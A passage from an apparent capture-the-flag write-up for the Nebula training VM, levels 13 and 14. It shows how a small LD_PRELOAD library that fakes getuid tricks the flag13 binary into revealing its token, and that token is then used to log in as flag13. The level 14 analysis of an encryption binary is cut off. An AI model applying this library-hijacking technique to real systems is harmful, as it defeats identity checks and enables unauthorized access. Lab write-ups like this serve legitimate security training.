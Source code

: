 Here we need to fake our UID. Sounds tricky. Actually, we don't fake our UID, we fake the call to `getuid`. How?
`getuid` is called from a library, which means we are able to replace it with our own library. Let's take a look at
the function definition of `getuid`

{{< highlight console >}}
GETUID(2)                  Linux Programmer's Manual                 GETUID(2)

NAME
       getuid, geteuid - get user identity

SYNOPSIS
       #include <unistd.h>
       #include <sys/types.h>

       uid_t getuid(void);
       uid_t geteuid(void);
{{< / highlight >}}

Ok, so let's write our verison of:

{{< highlight C >}}
#include <sys/types.h>

uid_t getuid(void) { return 1000; }
{{< / highlight >}}

and compile it as a shared library which we then preload (see `man ld.so` for more info on this). We need to
copy the `flag13` binary to our local directory because it needs to be run as the same user level as the 
library we are trying to preload.

{{< highlight console >}}
level13@nebula:/tmp$ gcc -shared -fPIC fake.c -o fetgetuid.so
level13@nebula:/tmp$ cp ~flag13/flag13 .
level13@nebula:/tmp$ export LD_PRELOAD=/tmp/fetgetuid.so
level13@nebula:/tmp$ ./flag13
your token is b705702b-76a8-42b0-8844-3adabbe5ac58
level13@nebula:/tmp$ ssh flag13@localhost
flag13@localhost's password: b705702b-76a8-42b0-8844-3adabbe5ac58
flag13@nebula:~$ getflag
You have successfully executed getflag on a target account
{{< / highlight >}}

## Level 14 ##

 > This program resides in /home/flag14/flag14 . It encrypts input and writes it to standard output. An encrypted token file is also in that home directory, decrypt it :) 

The contents of `token` were encrypted using the `flag14` binary in `~flag14`. If you run it you can see how it works. Let's enter something and see if we can work out how it works. I created a file with the contents `abcdefghijklmno` in `/tmp/test`

{{< highlight console >}}
 level14@nebula:/home/flag14$ cat /tmp/test | ./flag14 -e
acegikmoqsuwy{}level14@nebula:/home/flag14$
{{< / highlight >}}
